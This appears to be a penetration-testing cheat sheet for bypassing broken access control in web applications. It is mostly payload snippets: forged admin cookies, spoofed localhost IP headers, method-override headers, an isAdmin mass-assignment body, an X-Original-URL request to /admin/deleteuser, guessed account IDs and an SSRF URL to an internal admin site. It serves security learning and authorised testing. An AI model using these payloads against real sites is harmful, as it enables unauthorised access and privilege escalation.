 ```yaml
---
title: BROKEN ACCESS CONTROL
date: 2023-05-10 23:50:20 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


The attacking methodology of broken access control in web applications. If we got 401 or 403 HTTP response, try to bypass it using the following methods in this post.

# Change Header Values

`Cookie`

We may be able to get access to the login-required pages.

```
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

# IP Spoofing

```
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```

# Change Methods

```
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

# POST Parameters

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

# X-Original-URL, X-Rewrite-URL

```
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

# GET Parameters

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

# Access Page via SSRF

If there is another website that is owned by same orginazation, we may be able to see the target website with SSRF.

```
https://example.com?url=https://admin.example.com/
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```